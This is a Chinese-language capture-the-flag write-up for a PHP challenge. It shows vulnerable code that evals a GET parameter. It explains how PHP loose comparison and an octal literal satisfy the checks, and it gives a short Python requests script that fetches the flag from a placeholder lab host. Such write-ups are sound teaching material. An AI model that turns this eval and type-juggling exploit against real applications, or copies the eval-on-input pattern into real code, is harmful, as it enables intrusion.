


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要逻辑代码：

```php
<?php
error_reporting(0);
require_once('flag.php');
if(!isset($_GET['sss'])){
    show_source('challenge19.php');
    die();
}
$sss=$_GET['sss'];
if(strlen($sss)==666){
    if(!preg_match("/[^0-6]/",$sss)){
        eval('$sss='.$sss.';');
        if($sss!=='0x666'){
            if($sss=='0x666'){
                echo $flag;
            }
        }
    }
}
?>
```

3.由条件：
1. `$sss !== '0x666'`
2. `$sss == '0x666'`
   可知 `$sss `的值需要等于数值 0x666，而又不能等于字符串 '0x666'，其中涉及PHP的弱类型比较
3. `if(!preg_match("/[^0-6]/",$sss))`    ` $sss `只能包含 0--6 的数字
4. `if(strlen($sss)==666)`     `$sss` 的长度等于 666

4.通过分析可知我们需要创建一个长度为 666 ,只包含0 -- 6的数字，数值上等于 0x666且不等于字符串 '0x666'的参数，所以我们用八进制就可以搞定了，创建 $sss = '00...03146'即可

5.直接编写脚本获取flag：

```python
import requests

url = 'http://IP:PORT/challenge19.php?sss='+'0'*662+'3146'
html = requests.get(url)
print(html.content)
```


